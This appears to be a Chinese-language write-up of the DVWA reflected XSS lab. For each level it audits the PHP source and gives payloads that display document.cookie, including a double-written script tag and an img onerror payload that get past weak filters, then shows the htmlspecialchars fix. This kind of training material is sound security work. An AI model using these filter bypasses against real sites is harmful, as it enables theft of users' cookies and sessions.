 ### low

分析源码可以发现，服务器只是判断了 name 参数是否为空，如果不为空的话就直接打印出来。服务器并没有对 name 参数做任何的过滤和检查，存在明显的 XSS 漏洞。

1. 偷取cookies

```js
<script>alert(document.cookie)</script>
```

![image-20221202091530650](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/1431/202301071441076.png)

### medium

**源码审计** 

对`<script>` 进行简单的替换，可以通过双写绕过

```php
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );
```

**发起攻击**

```php
<script>alert(document.cookie)</script>
    改为
<scr<script>ipt>alert(document.cookie)</scr<script>ipt>
```



### high

**源码审计** 

```php
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );
```

可以不用`<script>`标签 

**发起攻击** 

```php
<img src = 1 onerror = alert(document.cookie)>
```

![image-20221202094134765](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/1431/202301071441561.png)

### impossible

**源码审计**

```php
    // Check Anti-CSRF token
checkToken($_REQUEST['user_token'], $_SESSION['session_token'], 'index.php' );
    // Get input
    $name = htmlspecialchars($_GET['name']);
```

